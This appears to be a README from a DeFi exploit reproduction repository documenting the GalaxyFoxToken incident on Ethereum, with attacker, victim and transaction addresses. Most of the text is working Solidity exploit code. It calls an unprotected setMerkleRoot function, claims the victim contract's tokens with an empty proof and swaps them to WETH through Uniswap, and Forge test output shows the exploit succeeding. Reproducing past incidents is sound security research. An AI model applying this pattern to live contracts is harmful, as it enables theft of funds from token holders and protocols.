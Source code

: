 # GalaxyFoxToken Attack Incident

## Information
+ Protocol Name: GalaxyFoxToken
+ Total Loss: 330K
+ Network: Ethereum Mainnet
  
+ Attacker: 0xFcE19F8f823759b5867ef9a5055A376f20c5E454
+ Attack Contract: 0x86C68d9e13d8d6a70b6423CEB2aEdB19b59F2AA5
+ Victim Contract: 0x47c4b3144de2c87a458d510c0c0911d1903d1686
+ Transaction: 0x12fe79f1de8aed0ba947cec4dce5d33368d649903cb45a5d3e915cc459e751fc

## Reproduction
1. Add funding token and configure block number:

```solidity
uint256 constant forkBlock = 19_835_924;
address constant fundToken = address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
```

2. Add constant variable:

```solidity
address constant GFOX = 0x8F1CecE048Cade6b8a05dFA2f90EE4025F4F2662;
address constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
address constant Victim = 0x11A4a5733237082a6C08772927CE0a2B5f8A86B6;
address constant Router = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
```

3. Add label in `setup` function
```solidity
vm.label(GFOX, "GFOX");
vm.label(WETH, "WETH");
vm.label(Victim, "Victim");
vm.label(Router, "Router");
```

4. Add necessary interface for victim contract
```solidity
interface IVictim {
    function setMerkleRoot(bytes32 _merkleRoot) external;
    function claim(address to, uint256 amount, bytes32[] calldata proof) external;
}
```

5. Execute exploit process:
```solidity
// Step 1: Call unprotected `setMerkleRoot` function
uint256 victimGFoxTokenAmount = IERC20(GFOX).balanceOf(Victim);
bytes32 root = keccak256(abi.encodePacked(address(this), victimGFoxTokenAmount));
IVictim(Victim).setMerkleRoot(root);

// Step 2: Claim tokens
IVictim(Victim).claim(address(this), victimGFoxTokenAmount, new bytes32[](0));
```

6. Execute post attack handling:
```solidity
// Swap GFOX token to WETH
uint256 amountIn = IERC20(GFOX).balanceOf(address(this));
uint256 amountOutMin = 0;
address[] memory path = new address[](2);
path[0] = GFOX;
path[1] = WETH;
address to = address(this);
uint256 deadline = block.timestamp;

IERC20(GFOX).approve(Router, amountIn);
IUniswapV2Router(Router).swapExactTokensForTokensSupportingFeeOnTransferTokens(
    amountIn, amountOutMin, path, to, deadline
);
```

7. Run forge command and check the final result:

Command
```bash
forge test --mc GalaxyFoxTokenTest -vvv
```

Result
```bash
Ran 1 test for test/GalaxyFoxToken/PoC.t.sol:GalaxyFoxTokenTest
[PASS] testExploit() (gas: 252808)
Logs:
  Attacker Token Balance Before Exploit:  0
  amountToClaim 1335339824388750000000000000
  Attacker Token Balance After Exploit:  108744009594558929771

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 606.11ms (1.90ms CPU time)
```